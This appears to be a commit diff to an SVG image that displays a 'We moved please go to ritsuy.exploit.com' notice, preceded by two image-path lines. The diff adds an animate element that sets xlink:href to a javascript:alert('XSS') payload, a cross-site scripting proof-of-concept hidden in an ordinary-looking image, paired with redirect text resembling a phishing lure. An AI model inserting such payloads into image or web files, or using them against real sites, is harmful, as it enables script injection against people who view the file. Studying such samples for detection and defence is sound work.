

<svg xmlns="http://www.w3.org/2000/svg" width="400" height="100">
  <text x="10" y="50" font-family="Arial" font-size="20" fill="black">We moved please go to</text>
-   <text x="10" y="80" font-family="Arial" font-size="20" fill="black">ritsuy.exploit.com</text>
+   <text x="10" y="80" font-family="Arial" font-size="20" fill="black">
+     <tspan>
+       <animate attributeName="xlink:href" values="javascript:alert('XSS')" dur="10s" begin="0s" />
+     </tspan>
+   ritsuy.exploit.com</text>
</svg>
